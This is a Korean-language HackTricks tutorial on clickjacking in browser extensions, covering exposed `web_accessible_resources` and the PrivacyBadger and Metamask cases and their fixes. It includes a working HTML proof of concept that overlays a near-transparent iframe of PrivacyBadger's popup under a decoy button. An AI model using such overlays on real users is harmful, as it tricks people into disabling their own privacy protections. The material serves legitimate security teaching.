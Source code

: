 # BrowExt - 클릭재킹

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 히어로까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 기본 정보

이 페이지는 브라우저 확장 프로그램의 클릭재킹 취약점을 악용할 것입니다.\
클릭재킹이 무엇인지 모르는 경우:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

확장 프로그램에는 **`manifest.json`** 파일이 포함되어 있으며 해당 JSON 파일에는 `web_accessible_resources` 필드가 있습니다. [Chrome 문서](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources)에 따르면 다음과 같습니다:

> 이러한 리소스는 **`chrome-extension://[PACKAGE ID]/[PATH]`** URL을 통해 웹페이지에서 사용할 수 있으며, 이는 **`extension.getURL 메서드`**를 사용하여 생성할 수 있습니다. 화이트리스트에 등록된 리소스는 적절한 CORS 헤더가 포함되어 제공되므로 XHR과 같은 메커니즘을 통해 사용할 수 있습니다.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

브라우저 확장 프로그램의 **`web_accessible_resources`**는 웹을 통해서만 접근할 수 있는 것뿐만 아니라 확장 프로그램의 고유한 권한으로도 작동합니다. 이는 다음과 같은 기능을 수행할 수 있음을 의미합니다:

* 확장 프로그램의 상태 변경
* 추가 리소스 로드
* 브라우저와 일부 상호 작용

그러나 이 기능은 보안 위험을 야기합니다. **`web_accessible_resources`** 내의 리소스에 중요한 기능이 있는 경우, 공격자는 이 리소스를 외부 웹페이지에 임베드할 수 있습니다. 이 페이지를 방문하는 알지 못하는 사용자는 이 임베드된 리소스를 부적절하게 활성화할 수 있습니다. 이러한 활성화는 확장 프로그램 리소스의 권한과 기능에 따라 의도하지 않은 결과로 이어질 수 있습니다.

## PrivacyBadger 예시

확장 프로그램 PrivacyBadger에서는 `skin/` 디렉토리가 다음과 같이 `web_accessible_resources`로 선언된 취약점이 식별되었습니다(원본 [블로그 게시물](https://blog.lizzie.io/clickjacking-privacy-badger.html) 참조):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
이 구성은 잠재적인 보안 문제로 이어졌습니다. 구체적으로 브라우저에서 PrivacyBadger 아이콘을 클릭하면 렌더링되는 `skin/popup.html` 파일이 `iframe` 내에 포함될 수 있습니다. 이 포함은 사용자들을 속여 "이 웹사이트의 PrivacyBadger 비활성화"를 우연히 클릭하도록 유도할 수 있습니다. 이러한 조치는 PrivacyBadger 보호를 비활성화하고 사용자를 증가된 추적에 노출시킬 수 있어 사용자의 개인 정보를 침해할 수 있습니다. 이 취약점의 시각적인 시연은 [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm)에서 제공된 ClickJacking 비디오 예제에서 확인할 수 있습니다.

이 취약점을 해결하기 위해 간단한 해결책이 구현되었습니다: `web_accessible_resources` 목록에서 `/skin/*`를 제거하는 것입니다. 이 변경으로 `skin/` 디렉토리의 내용이 웹 접근 가능 리소스를 통해 액세스되거나 조작되지 않도록하여 위험을 효과적으로 완화했습니다.

수정 방법은 간단합니다: **`web_accessible_resources`에서 `/skin/*`를 제거**합니다.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Metamask Example

[**Metamask에서 발생한 ClickJacking에 관한 블로그 포스트는 여기에서 확인할 수 있습니다**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). 이 경우 Metamask는 취약점을 수정하여 액세스에 사용된 프로토콜이 **`https:`** 또는 **`http:`** (예: **`chrome:`**가 아님)인지 확인함으로써 취약점을 해결했습니다:

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Metamask 확장 프로그램에서 **또 다른 ClickJacking이 수정**된 사례는 사용자가 **Click to whitelist**할 수 있었던 것인데, 페이지가 `“web_accessible_resources”: [“inpage.js”, “phishing.html”]` 때문에 피싱으로 의심되는 경우에 발생했습니다. 해당 페이지가 Clickjacking에 취약했기 때문에, 공격자는 희생자가 알지 못하게 화이트리스트에 추가하도록 유도하기 위해 정상적인 내용을 보여주고, 그 후 피싱 페이지로 돌아가 화이트리스트에 추가할 수 있었습니다.

## Steam Inventory Helper Example

브라우저 확장 프로그램에서의 **XSS**가 **ClickJacking** 취약점과 연계된 방법을 확인하려면 다음 페이지를 확인하세요:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## References

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)
